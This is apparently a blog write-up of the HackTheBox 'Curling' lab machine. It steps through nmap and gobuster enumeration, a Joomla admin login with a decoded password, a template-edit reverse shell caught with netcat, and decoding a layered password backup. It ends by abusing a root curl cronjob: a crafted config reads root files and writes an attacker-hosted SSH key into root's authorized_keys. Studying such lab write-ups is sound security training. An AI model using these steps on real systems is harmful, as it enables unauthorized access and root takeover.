


+++
authors = ["Matt Johnson"]
title = 'HTB: Curling Writeup'
date = '2020-04-28'
description = "Here's how to solve HackTheBox's Curling."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Curling."
+++



# High-Level Information

Machine Name: Curling

IP Address: 10.10.10.150

Difficulty: Easy

Summary: How difficult HackTheBox's Curling is highly depends on how well you enumerate the box. In my case, it ended up being relatively simple. Inspecting the source code reveals a hidden file from which I derived the password to the Joomla admin panel. From there, I was able to get a shell as www-data. In order to gain access to Floris' account, I decoded an "encrypted" (encoded) password backup file. Once I had those credentials, I exploited an SUID program running as a cronjob to get a root shell.

Tools Used: Nmap, Curl, Gobuster

# Initial Foothold

```shell
matt@kali:~/htb/curling$ sudo /opt/stagednmap.sh 10.10.10.150
[sudo] password for matt:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-18 17:35 CDT
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 8.52% done; ETC: 17:42 (0:05:54 remaining)
Stats: 0:08:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 78.66% done; ETC: 17:45 (0:02:12 remaining)
Nmap scan report for 10.10.10.150
Host is up (0.12s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 640.07 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-18 17:46 CDT
Nmap scan report for 10.10.10.150
Host is up (0.12s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
| 256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_ 256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), Linux 3.12 (93%), Linux 3.13 (93%), Linux 3.13 - 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 443/tcp)
HOP RTT ADDRESS
1 125.05 ms 10.10.14.1
2 125.57 ms 10.10.10.150
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.73 seconds
```

With only HTTP to enumerate, I moved on to inspecting the site and source code:


```shell
matt@kali:~/htb/curling$ curl http://10.10.10.150
<!DOCTYPE html>
<html lang="en-gb" dir="ltr">
    ...
    <!-- secret.txt -->
</html>
matt@kali:~/htb/curling$ curl http://10.10.10.150/secret.txt
Q3VybGluZzIwMTgh
```

The secret appeared to be a base64-encoded password:

```shell
matt@kali:~/htb/curling$ echo "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

Moving on, I ran a gobuster scan against the site and ended up finding the Joomla administrator login page in the /administrator directory:

```shell
matt@kali:~/htb/curling$ gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 50 --url http://10.10.10.150 -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: http://10.10.10.150
[+] Threads: 50
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Extensions: php,txt
[+] Timeout: 10s
===============================================================
2020/04/18 17:46:55 Starting gobuster
===============================================================
/index.php (Status: 200)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/images (Status: 301)
/bin (Status: 301)
/plugins (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/README.txt (Status: 200)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/LICENSE.txt (Status: 200)
/layouts (Status: 301)
/secret.txt (Status: 200)
/administrator (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/18 18:15:23 Finished
===============================================================
```

Using the credentials 'floris:Curling2018!', I was able to get access to the admin panel:



From there, the path to getting a low shell on the box was to edit the template for index.php so that it would execute a reverse shell, visit the homepage, and catch the shell using netcat:



```shell
matt@kali:~/htb/curling$ sudo nc -nvlp 80
[sudo] password for matt:
listening on [any] 80 ...
connect to [10.10.14.105] from (UNKNOWN) [10.10.10.150] 59280
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    03:12:01 up 4:37, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
```

# Privilege Escalation

My initial analysis of the box didn't yield much, but browsing through /home/floris (which was world-readable) led me to a file called 'password\_backup':

```shell
$ pwd
/home/floris
$ ls -la
total 44
drwxr-xr-x 6 floris floris 4096 May 22 2018 .
drwxr-xr-x 3 root root 4096 May 22 2018 ..
lrwxrwxrwx 1 root root 9 May 22 2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris 220 Apr 4 2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr 4 2018 .bashrc
drwx------ 2 floris floris 4096 May 22 2018 .cache
drwx------ 3 floris floris 4096 May 22 2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22 2018 .local
-rw-r--r-- 1 floris floris 807 Apr 4 2018 .profile
drwxr-x--- 2 root floris 4096 May 22 2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22 2018 password_backup
-rw-r----- 1 floris floris 33 May 22 2018 user.txt
$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000 BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34 ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960 N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000 ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800 ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034 ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0 i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78 .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931 .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22 .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290 ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503 .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843 7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090 .G.. .U@r..rE8P.
000000f0: 819b bb48
```

I took this file to my machine and started decoding it:

```shell
matt@kali:~/htb/curling$ xxd -r florispass.hex > florispass.plain
matt@kali:~/htb/curling$ file florispass.plain
florispass.plain: bzip2 compressed data, block size = 900k
matt@kali:~/htb/curling$ bzip2 -d florispass.plain
bzip2: Can't guess original name for florispass.plain -- using florispass.plain.out
matt@kali:~/htb/curling$ ls
curlhome curlsecret edittemplate.png florisdir florispass.hex florispass.plain.out gobusterhome joomlaadminpanel.png nmap php-reverse-shell.php secretplain site1.png testingnotes usershell
matt@kali:~/htb/curling$ file florispass.plain.out
florispass.plain.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
matt@kali:~/htb/curling$ mv florispass.plain.out florispass.gz
matt@kali:~/htb/curling$ gunzip florispass.gz
matt@kali:~/htb/curling$ ls
curlhome curlsecret edittemplate.png florisdir florispass florispass.hex gobusterhome joomlaadminpanel.png nmap php-reverse-shell.php secretplain site1.png testingnotes usershell
matt@kali:~/htb/curling$ cat florispass
BZh91AY&SY6Ǎ@@Pt t"dhhOPIS@68ET>P@#I bՃ|3x(*N&Hk1x"{]B@6matt@kali:~/htb/curling$ file florispass
florispass: bzip2 compressed data, block size = 900k
matt@kali:~/htb/curling$ bzip2 -d florispass
bzip2: Can't guess original name for florispass -- using florispass.out
matt@kali:~/htb/curling$ cat florispass.out
password.txt0000644000000000000000000000002313301066143012147 0ustar rootroot5d<wdCbdZu)|hChXll
matt@kali:~/htb/curling$ file florispass.out
florispass.out: POSIX tar archive (GNU)
matt@kali:~/htb/curling$ tar xvf florispass.out
password.txt
matt@kali:~/htb/curling$ cat password.txt
5d<wdCbdZu)|hChXll
matt@kali:~/htb/curling$ file password.txt
password.txt: ASCII text
matt@kali:~/htb/curling$ ssh floris@10.10.10.150
floris@10.10.10.150's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)
    * Documentation: https://help.ubuntu.com
    * Management: https://landscape.canonical.com
    * Support: https://ubuntu.com/advantage
    System information as of Sun Apr 19 04:12:32 UTC 2020
    System load: 0.08 Processes: 169
    Usage of /: 47.2% of 9.78GB Users logged in: 0
    Memory usage: 28% IP address for ens33: 10.10.10.150
    Swap usage: 0%
0 packages can be updated.
0 updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Sun Apr 19 04:11:51 2020 from 10.10.14.105
floris@curling:~$
```

As Floris, I had much more freedom to work and poke around. Within /home/floris/admin-area, there were two files, one called 'input' and the other 'report'. Input was owned by Floris, but report was owned by root. Furthermore, the files were being updated every minute. Hypothesizing that I could manipulate 'input' to execute arbitrary code, I set the content of 'input' as `url = "http://10.10.14.30:9999"` and waited with my netcat listener:

```shell
matt@kali:~/htb/curling$ sudo nc -nvlp 9999
[sudo] password for matt:
listening on [any] 9999 ...
connect to [10.10.14.105] from (UNKNOWN) [10.10.10.150] 50886
GET / HTTP/1.1
Host: 10.10.14.105:9999
User-Agent: curl/7.58.0
Accept: */*
```

After that, I decided to use 'file://' in order to get the root flag:

```shell
floris@curling:~/admin-area$ cat input
url = "file:///root/root.txt"
floris@curling:~/admin-area$ cat report
82c...
```

Of course, the point of HackTheBox, at least in my mind, is to get a root shell, not just the root flag. I grabbed /etc/shadow to see if I could crack root's hash, but it was a salted SHA-512 hash. I decided not to go down that road. The next file I got was root's cronjob file:

```shell
floris@curling:~/admin-area$ cat input
url = "file:///var/spool/cron/crontabs/root"
floris@curling:~/admin-area$ cat report
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.1F3WTb/crontab installed on Tue May 22 19:02:51 2018)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
#        
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#        
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#        
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#        
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#        
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#        
# For more information see the manual pages of crontab(5) and cron(8)
#        
# m h dom mon dow command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```

After seeing that root was running 'curl -K', I researched the '-K' flag and learned that you could specify more than just the url. Notably, you can specify an output location. Armed with this information, my goal was to overwrite the /root/.ssh/authorized\_keys file with my own SSH public key. If successful, I could simply run `ssh root@10.10.10.150` and get a password-free root shell. Ordinarily, you should definitely NOT use a passwordless SSH key. I only use this Kali instance for CTFs, so there's not really any risk associated with this decision.

```shell
floris@curling:~/admin-area$ cat input
url = "http://10.10.14.30/id_rsa.pub"
output = "/root/.ssh/authorized_keys"
user-agent = "hello"
```

```shell
matt@kali:~/.ssh$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.150 - - [27/Apr/2020 18:19:19] "GET /id_rsa.pub HTTP/1.1" 200 -
matt@kali:~$ ssh root@10.10.10.150
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)
    * Documentation: https://help.ubuntu.com
    * Management: https://landscape.canonical.com
    * Support: https://ubuntu.com/advantage
    System information as of Mon Apr 27 23:24:34 UTC 2020
    System load: 0.0 Processes: 167
    Usage of /: 46.2% of 9.78GB Users logged in: 1
    Memory usage: 20% IP address for ens33: 10.10.10.150
    Swap usage: 0%
0 packages can be updated.
0 updates are security updates.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Tue Sep 25 21:56:22 2018
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
```

As a final note, there are certainly other ways to get a root shell. You could overwrite the sudoers file, for example. Besides that, there's not much more to it. Hopefully I explained it well.